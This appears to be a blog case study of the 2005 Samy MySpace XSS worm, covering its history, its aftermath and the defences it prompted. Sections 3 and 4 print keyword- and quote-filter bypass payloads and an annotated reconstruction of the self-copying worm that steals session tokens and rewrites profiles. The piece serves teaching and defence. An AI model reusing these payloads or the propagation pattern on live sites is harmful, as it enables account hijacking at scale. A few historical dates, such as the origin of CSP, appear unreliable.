

On the evening of **October 4, 2005**, a 19-year-old developer from Los Angeles named **Samy Kamkar** launched what would become the fastest-spreading virus of all time — not through email attachments, buffer overflows, or zero-day kernel exploits, but through a few dozen lines of clever JavaScript embedded in a MySpace profile page.

In less than **20 hours**, the **Samy worm** (also known as **JS.Spacehero**) had infected over **one million MySpace user profiles**, adding Samy Kamkar as a friend and appending the phrase **"but most of all, samy is my hero"** to every victim's profile. MySpace — the largest social network on the planet at the time, with over 100 million users — was forced to take its entire platform offline to contain the damage.

This wasn't ransomware. This wasn't data theft. This was a proof of concept that exposed a catastrophic truth: **web applications are attack surfaces**, and the browser itself is the execution environment.

This is the story of how it worked, why it mattered, and what it taught the entire security industry.

---

## 1. Context: MySpace in 2005

To fully appreciate the Samy worm, you need to understand what MySpace was in October 2005. It wasn't just a website — it was **the** internet for an entire generation.

*   **Largest social network in the world** — MySpace surpassed Google as the most visited website in the United States in 2006.
*   **Customizable profiles** — Unlike today's locked-down platforms, MySpace allowed users to inject custom HTML and CSS into their profile pages to personalize layouts, backgrounds, music players, and more.
*   **No Content Security Policy (CSP)** — The concept of CSP didn't exist yet. Browsers had no mechanism to restrict which scripts could execute on a page.
*   **Limited XSS awareness** — While Cross-Site Scripting was a known vulnerability class (the term was coined by Microsoft in 2000), the *weaponization* of XSS at scale — particularly self-propagating XSS — was almost entirely theoretical.

MySpace's decision to allow user-generated HTML was a feature. It was also the attack surface.

---

## 2. The Motivation: "I Just Wanted More Friends"

Samy Kamkar has been remarkably transparent about his motivations. In interviews and his own published account, he described it simply: he was curious whether he could use JavaScript to make his MySpace profile automatically add visitors as friends. He started small — could he get one person? Then the question became: could the code copy itself? Could it spread?

> *"I am terribly boring and have no friends on MySpace. So I decided to see if I could game the system and get people to add me. I didn't mean for it to spread to a million people."*
> — Samy Kamkar

What started as a personal experiment in social engineering via code escalated into the first major **self-propagating cross-site scripting worm** in history.

---

## 3. The Technical Deep Dive: How the Samy Worm Actually Worked

This is the core of the case study. The Samy worm was a masterpiece of constraint-driven engineering. Kamkar didn't have access to MySpace's servers. He couldn't install software on victims' machines. He couldn't even use standard `<script>` tags — MySpace's filters stripped them. Every trick in the worm was a filter bypass.

### 3.1 The Sanitization Problem

MySpace did have input sanitization. When a user saved their profile, the platform ran the HTML through a filter that:

*   **Stripped `<script>` tags** — Direct script injection was blocked.
*   **Stripped `javascript:` URIs** — No `<a href="javascript:alert(1)">` payloads.
*   **Stripped event handlers on most elements** — Attributes like `onclick`, `onload`, and `onmouseover` were generally removed.
*   **Allowed CSS** — Users needed CSS to customize their profiles.

This seemed reasonably secure for 2005. But Kamkar found the cracks.

### 3.2 Bypass #1: JavaScript in CSS

MySpace allowed inline CSS via `<div style="...">` attributes. Crucially, **Internet Explorer 6** (the dominant browser at the time, with ~85% market share) supported a proprietary CSS feature called **CSS expressions**:

```css
div {
  width: expression(alert('XSS'));
}
```

CSS expressions allowed arbitrary JavaScript to be evaluated as part of a CSS property value. This was an IE-specific feature and was considered extremely dangerous even at the time, but it was *valid CSS* in IE — meaning MySpace's filter, which was designed to strip `<script>` tags and event handlers, passed it right through.

Kamkar's initial injection vector was essentially:

```html
<div style="background:url('javascript:alert(1)')">
```

But MySpace also stripped the word `javascript`. So Kamkar needed another bypass.

### 3.3 Bypass #2: String Splitting to Evade Keyword Filters

MySpace's filter scanned for the string `javascript` as a continuous token. Kamkar discovered that **Internet Explorer would ignore embedded newlines and whitespace** within CSS expression values. So instead of writing:

```
javascript
```

He could write:

```
java\nscript
```

Or use a creative split across the attribute:

```html
<div id="mycode" expr="alert('hi')" style="background:url('java
script:eval(document.all.mycode.expr)')">
```

IE's CSS parser stripped the newline and reconstructed `javascript` before evaluation, while MySpace's text-based filter never saw the contiguous string. **This was the critical initial code execution vector.**

### 3.4 Bypass #3: Evading Quote Filters

MySpace also stripped double quotes in certain contexts, which would break JavaScript string construction. Kamkar used **single quotes** where possible, and for cases where he needed to construct strings containing quotes, he used `String.fromCharCode()`:

```javascript
// Instead of: var s = "samy";
var s = String.fromCharCode(115,97,109,121); // "samy"
```

This technique allowed him to build arbitrary strings without ever typing a quote character that the filter might strip.

### 3.5 Bypass #4: innerHTML Keyword Filter

MySpace also filtered the word `innerHTML`, which is essential for reading and writing page content via the DOM. Kamkar bypassed this by splitting the property access across a concatenation:

```javascript
// Instead of: document.getElementById('x').innerHTML
document.getElementById('x')['inner' + 'HTML']
```

JavaScript's bracket notation for property access, combined with string concatenation, allowed him to reference `innerHTML` without the filter ever seeing the complete token.

### 3.6 The Payload: What the Worm Actually Did

Once Kamkar achieved JavaScript execution on a victim's profile page, the worm performed a precise sequence of actions using **XMLHttpRequest (XHR)** — which was relatively new technology in 2005 (the term "AJAX" had been coined just months earlier, in February 2005).



Here is the step-by-step execution flow:

#### Step 1: Harvest the Authentication Token

When a logged-in MySpace user visited an infected profile, the worm's JavaScript executed in the context of **that user's authenticated session** (same-origin). The first thing the worm did was issue a `GET` request to the victim's own profile edit page to extract the unique **session token** (a hidden form field required by MySpace to validate profile update requests).

```javascript
// Pseudocode — simplified from Kamkar's original
var httpGet = new XMLHttpRequest();
httpGet.open('GET', '/index.cfm?fuseaction=user.viewprofile&friendid=' + myId, false);
httpGet.send();
var token = extractToken(httpGet.responseText);
```

#### Step 2: Send a Friend Request to Samy

Using the harvested token, the worm issued a `POST` request to MySpace's friend-request endpoint, adding **Samy Kamkar's profile (friendID: 11851658)** as a friend of the victim:

```javascript
var httpPost = new XMLHttpRequest();
httpPost.open('POST', '/index.cfm?fuseaction=invite.addasfriend', false);
httpPost.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
httpPost.send('friendID=11851658&Ession=' + token);
```

#### Step 3: Modify the Victim's Profile ("samy is my hero")

The worm then `GET`-requested the victim's "Edit Profile" page, extracted the current "About Me" or "Hero" section content, appended the string **"but most of all, samy is my hero"** to it, and `POST`-ed the modified content back.

#### Step 4: Self-Propagation (The Critical Step)

This is what made the Samy worm a **worm** and not just an XSS payload. In addition to modifying the text content, the worm **injected a copy of its own source code** into the victim's profile HTML. This meant:

1.  Victim **Alice** visits Samy's infected profile.
2.  The worm executes in Alice's browser, adds Samy as Alice's friend, modifies Alice's hero section, and **copies the worm code into Alice's profile**.
3.  Now, when **Bob** visits Alice's profile, the exact same worm code executes in Bob's browser.
4.  Bob's profile is now infected. When **Carol** visits Bob...

This is **exponential propagation**. Every infected profile becomes a new infection vector. The growth rate was not linear — it was geometric.

### 3.7 The Growth Curve

The propagation numbers were staggering:

| Time After Launch | Infected Profiles |
|---|---|
| 1 hour | ~1,000 |
| 8 hours | ~250,000 |
| 12 hours | ~500,000 |
| 18 hours | ~900,000 |
| ~20 hours (shutdown) | **1,005,831** |

The worm was adding roughly **1,000 new friend requests per second** to Samy's profile at its peak. The growth followed an exponential curve limited only by the total active user base and the time it took for users to visit infected profiles.

To put this in perspective: the **ILOVEYOU worm** (2000), which spread via email and caused an estimated $10 billion in damages, took **approximately 10 days** to infect an estimated 50 million computers. The Samy worm hit one million in under a day — constrained only by the MySpace platform, not the internet at large.

---

## 4. The Original Source Code — Annotated

Samy Kamkar published the [full, annotated source code](https://samy.pl/myspace/tech.html) on his personal website. The actual payload was remarkably compact — approximately **4 KB of heavily obfuscated JavaScript**, compressed to fit within MySpace's profile character limits.

Here is a simplified, annotated reconstruction of the core logic (not the obfuscated original):

```javascript
// === SAMY WORM — SIMPLIFIED ANNOTATED RECONSTRUCTION ===

// Step 0: Prevent re-execution if the worm already ran on this page load
if (typeof wormExecuted == 'undefined') {
  var wormExecuted = true;

  // Step 1: Determine the viewer's own MySpace friend ID
  // (extracted from cookies or page elements)
  var myId = getCurrentUserId();

  // Step 2: Fetch the current user's profile page to get the session token
  var req = new XMLHttpRequest();
  req.open('GET', '/index.cfm?fuseaction=user.viewProfile&friendID=' + myId, false);
  req.send(null);
  var token = /Ession\s*=\s*([a-f0-9]+)/.exec(req.responseText)[1];

  // Step 3: Add Samy (friendID 11851658) as a friend
  var addFriend = new XMLHttpRequest();
  addFriend.open('POST', '/index.cfm?fuseaction=invite.addasFriend', false);
  addFriend.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
  addFriend.send('friendID=11851658&Ession=' + token);

  // Step 4: Fetch the profile edit page
  var editReq = new XMLHttpRequest();
  editReq.open('GET', '/index.cfm?fuseaction=profile.edit', false);
  editReq.send(null);

  // Step 5: Inject "samy is my hero" into the hero/about section
  var profileHTML = editReq.responseText;
  if (profileHTML.indexOf('samy is my hero') == -1) {
    // Append the hero text
    var heroSection = extractHeroSection(profileHTML);
    heroSection += "but most of all, samy is my hero";

    // Step 6: CRITICAL — Inject a COPY of this worm's source code
    // into the victim's profile so it propagates to visitors
    heroSection += WORM_SOURCE_CODE; // The worm's own code, encoded

    // Step 7: POST the modified profile back to MySpace
    var saveReq = new XMLHttpRequest();
    saveReq.open('POST', '/index.cfm?fuseaction=profile.save', false);
    saveReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    saveReq.send('heroSection=' + encodeURIComponent(heroSection) + '&Ession=' + token);
  }
}
```

The elegance is in the constraint. No server compromise. No binary exploit. No privilege escalation. Just **JavaScript running in a browser**, making the same HTTP requests a normal user would make, at machine speed.

---

## 5. The Aftermath

### 5.1 MySpace's Response

Within approximately 20 hours of the worm's launch, MySpace's operations team identified the exponential growth of Samy Kamkar's friend count and the mass profile modifications. Their response was decisive but painful:

1.  **Took the entire MySpace platform offline** for emergency maintenance.
2.  **Scrubbed the worm code** from all infected profiles (over one million pages).
3.  **Patched the CSS expression and keyword filter bypasses** that enabled the injection.
4.  **Deleted Samy Kamkar's MySpace account.**

The service disruption affected tens of millions of active users during peak hours.

### 5.2 Legal Consequences

Despite the worm being non-destructive (it didn't steal data, delete accounts, or damage systems), the legal consequences for Samy Kamkar were severe:

*   **Investigated by the United States Secret Service** (the USSS handles computer crimes under 18 U.S.C. § 1030, the Computer Fraud and Abuse Act).
*   In 2007, Kamkar accepted a **felony charge** and a plea deal that included:
    *   **3 years of probation** (no jail time).
    *   **90 days of community service**.
    *   An undisclosed amount in **restitution** to MySpace.
    *   **A ban from using computers or accessing the internet for 3 years** (except for work purposes with prior approval).
    *   He was **not allowed to possess any computer capable of connecting to the internet** during probation without court permission.

The severity of the punishment — for what many in the security community considered a relatively benign proof of concept — sparked significant debate about the proportionality of the Computer Fraud and Abuse Act (CFAA). This debate continues to this day.

### 5.3 Samy Kamkar's Post-Worm Career

After completing his probation, Kamkar went on to become one of the most respected independent security researchers in the world. His subsequent work includes:

| Year | Project | Description |
|---|---|---|
| 2010 | **Evercookie** | A JavaScript API that produces extremely persistent cookies that resist deletion, demonstrating how tracking can survive cookie clearing. |
| 2013 | **SkyJack** | A drone that autonomously seeks out and wirelessly hacks other Parrot AR drones in mid-flight. |
| 2015 | **RollJam** | A $30 device that intercepts and replays rolling code signals used by car key fobs and garage door openers. |
| 2015 | **OwnStar** | A device that intercepts GM's OnStar communications to locate, unlock, and start vehicles remotely. |
| 2015 | **MagSpoof** | A device that wirelessly spoofs magnetic stripe card readers, even on chip-and-pin terminals. |
| 2016 | **PoisonTap** | A USB device that, when plugged into a locked computer, siphons cookies, exposes internal routers, and installs web backdoors. |
| 2017 | **OpenSesame** | Demonstrated vulnerabilities in fixed-code garage door systems. |

Kamkar also co-founded **Openpath**, a physical access control company later acquired by Motorola Solutions. He is regularly invited to speak at DEF CON, Black Hat, and other top-tier security conferences.

---

## 6. Why the Samy Worm Matters: Lessons and Legacy

The Samy worm was not sophisticated by modern standards. It exploited a browser feature (CSS expressions) that has long since been removed and evaded text-based filters that would be considered laughably inadequate today. But its impact on web security was *foundational*.

### 6.1 It Proved XSS Could Be Weaponized at Scale

Before Samy, XSS was widely dismissed as a "low-severity" or "cosmetic" vulnerability. The typical demonstration was `alert(1)` — a popup box. Security teams and developers treated it as annoying but not dangerous.

The Samy worm destroyed that assumption. It demonstrated that Stored XSS + AJAX + self-propagation = **a fully autonomous worm that requires zero user interaction beyond visiting a web page**. This single incident elevated XSS from a theoretical nuisance to a recognized critical-severity vulnerability class.

### 6.2 It Accelerated Web Security Standards

The Samy worm (and the wave of copycat XSS worms it inspired) directly contributed to the urgency behind several critical web security standards:

*   **Content Security Policy (CSP)** — First proposed by Mozilla in 2004 and formalized as a W3C standard, CSP allows web applications to declare which sources of content (scripts, styles, images) are permitted. A properly configured CSP would have completely prevented the Samy worm.
*   **HttpOnly Cookies** — Marking cookies as `HttpOnly` prevents JavaScript from accessing them via `document.cookie`, mitigating session hijacking via XSS.
*   **X-XSS-Protection Header** — Browser-side XSS filtering (now deprecated in favor of CSP, but important historically).
*   **SameSite Cookie Attribute** — Restricts when cookies are sent with cross-site requests, mitigating CSRF (a closely related attack vector).
*   **Input Sanitization Libraries** — The worm highlighted the futility of "blacklist" sanitization (stripping specific tags/keywords). The industry shifted toward **allowlist-based** sanitization and context-aware output encoding (e.g., OWASP's Java Encoder, DOMPurify for JavaScript).

### 6.3 It Exposed the Fundamental Flaw in User-Generated Content

MySpace allowed HTML because users wanted customization. But **allowing users to inject code into pages rendered by other users' browsers** is fundamentally incompatible with security. The Samy worm crystallized a principle that is now a cornerstone of secure web architecture:

> **Never trust user input. Never render unsanitized user content in a security-sensitive context.**

This principle drove the architectural decisions behind modern platforms. Facebook, Twitter/X, Instagram — none of them allow raw HTML in user-generated content. All user content is parsed, sanitized, and rendered through controlled templates. The MySpace customization era died with the Samy worm.

### 6.4 The "Benign Worm" Paradox

The Samy worm was deliberately non-destructive. Kamkar has stated repeatedly that he designed it to be harmless — it didn't steal passwords, exfiltrate data, or corrupt accounts. It just added a friend and modified text. 

But this raises a critical question: **what if the payload had been malicious?**

The same propagation mechanism could have:

*   **Stolen session tokens** and exfiltrated them to an attacker-controlled server.
*   **Harvested personal messages and private photos** from every infected user.
*   **Spread phishing pages** that mimicked the MySpace login page to steal credentials.
*   **Deployed browser exploits** (IE6 was riddled with memory corruption vulnerabilities in 2005) to install actual malware on victims' machines.

The Samy worm was a warning shot. The vulnerability it exploited was platform-wide. A malicious actor with the same skillset could have compromised millions of accounts.

---

## 7. The Samy Worm vs. Modern XSS: What's Changed?

Two decades later, has the industry learned the lesson? Partially.

### What's Better

| Defense | Description |
|---|---|
| **Content Security Policy (CSP)** | Modern web applications can declare that only scripts from specific origins may execute, effectively neutering inline script injection. |
| **Framework-Level Auto-Escaping** | Modern frameworks (React, Angular, Vue, Next.js) automatically escape user content by default. Rendering raw HTML requires explicit opt-in (e.g., `dangerouslySetInnerHTML` in React). |
| **Browser Security Features** | CSS expressions were removed from IE8+. Modern browsers implement robust same-origin policies and sandboxing. |
| **Bug Bounty Programs** | Platforms like HackerOne and Bugcrowd incentivize researchers to report XSS vulnerabilities rather than weaponize them. |
| **WAFs and Runtime Protection** | Web Application Firewalls (Cloudflare, AWS WAF, Akamai) provide pattern-matching defenses against common XSS payloads. |

### What's Still Broken

*   **DOM-based XSS** — Client-side JavaScript frameworks that dynamically manipulate the DOM can introduce XSS that never touches the server, evading server-side sanitization entirely.
*   **CSP Misconfigurations** — Google's 2016 study found that **94.72% of CSP deployments in the wild were bypassable** due to the use of `unsafe-inline` or overly permissive source lists.
*   **Mutation XSS (mXSS)** — Exploits differences between how HTML is parsed by sanitizers versus how it's parsed by the browser's actual rendering engine.
*   **Third-Party Script Dependencies** — Modern web applications load dozens of third-party scripts (analytics, ads, chat widgets). A compromise of any one of those third-party origins effectively bypasses CSP and achieves code execution on the host application.

XSS consistently remains in the **OWASP Top 10** and is one of the most commonly reported vulnerabilities on bug bounty platforms. The Samy worm's core lesson — that user-controlled content in a web page is an attack surface — is as relevant in 2026 as it was in 2005.

---

## 8. Reproducing the Concepts in a Lab (Ethically)

If you want to study XSS worm mechanics hands-on, **never test on production systems**. Use purpose-built vulnerable applications in isolated lab environments:

1.  **DVWA (Damn Vulnerable Web Application)** — Contains a Stored XSS module where you can practice injection and observe persistence.
2.  **PortSwigger Web Security Academy** — Has a comprehensive, free [XSS learning path](https://portswigger.net/web-security/cross-site-scripting) with dozens of progressively harder labs, including stored XSS, DOM-based XSS, and filter bypass challenges.
3.  **Hack The Box / TryHackMe** — Both platforms feature machines and rooms specifically designed to teach XSS exploitation in realistic scenarios.

Building a self-propagating XSS worm in a sandboxed environment is one of the best ways to deeply understand both the offensive mechanics and the defensive controls needed to prevent them.

---

## 9. Timeline

For reference, here is a condensed chronological timeline of the Samy worm incident:

| Date | Event |
|---|---|
| **October 4, 2005** | Samy Kamkar deploys the worm code to his MySpace profile page. |
| **October 4, 2005 (evening)** | Exponential propagation begins. Friend requests flood Samy's account at thousands per second. |
| **October 5, 2005 (~early AM)** | MySpace detects the anomaly. Over 1 million profiles are infected. |
| **October 5, 2005** | MySpace takes the **entire platform offline** for emergency maintenance. |
| **October 5, 2005** | Worm code is scrubbed from all infected profiles. Samy's account is deleted. |
| **2006** | The United States Secret Service opens an investigation into Samy Kamkar. |
| **January 31, 2007** | Kamkar accepts a plea deal: 3 years probation, 90 days community service, restitution, and a ban from internet access. |
| **2010** | Kamkar completes probation and returns to security research full-time. |

---

## 10. Recommended Resources

For a complete understanding of the Samy worm and the broader context of XSS exploitation, these are essential:

*   **[Samy Kamkar's Own Technical Writeup](https://samy.pl/myspace/tech.html)** — The original, annotated source code and explanation by the author himself. This is the definitive primary source.
*   **[Samy Kamkar's DEF CON Talk](https://www.youtube.com/results?search_query=samy+kamkar+defcon)** — Multiple DEF CON presentations where Kamkar discusses the worm, his motivations, and subsequent research.
*   **[Darknet Diaries — Episode 61](https://darknetdiaries.com/episode/61/)** — While focused on the Satori botnet, Jack Rhysider's storytelling provides excellent context on the era of self-propagating worms.
*   **[OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Scripting_Prevention_Cheat_Sheet.html)** — The industry-standard reference for defending against XSS.
*   **[Google's CSP Bypass Study (2016)](https://research.google/pubs/pub45542/)** — "CSP Is Dead, Long Live CSP" — a critical read on why CSP deployments frequently fail.

---

## Final Thoughts

The Samy worm is often presented as a funny anecdote — a teenager who just wanted friends on MySpace. And there's humor in it. But beneath the meme-worthy tagline ("samy is my hero") lies a genuinely important inflection point in the history of cybersecurity.

It demonstrated that **web browsers are execution environments**, that **user-generated content is code injection waiting to happen**, and that **a single Stored XSS vulnerability in a popular platform can have worm-like, exponential consequences**.

Twenty-one years later, XSS is still in the OWASP Top 10. We're still finding bypasses. We're still deploying broken CSPs. The technology has evolved — the fundamental lesson hasn't.

The Samy worm didn't just infect a million profiles. It infected the way an entire industry thinks about trust, input, and the fragile boundary between data and code in a web browser.

*Samy is, in fact, my hero.*
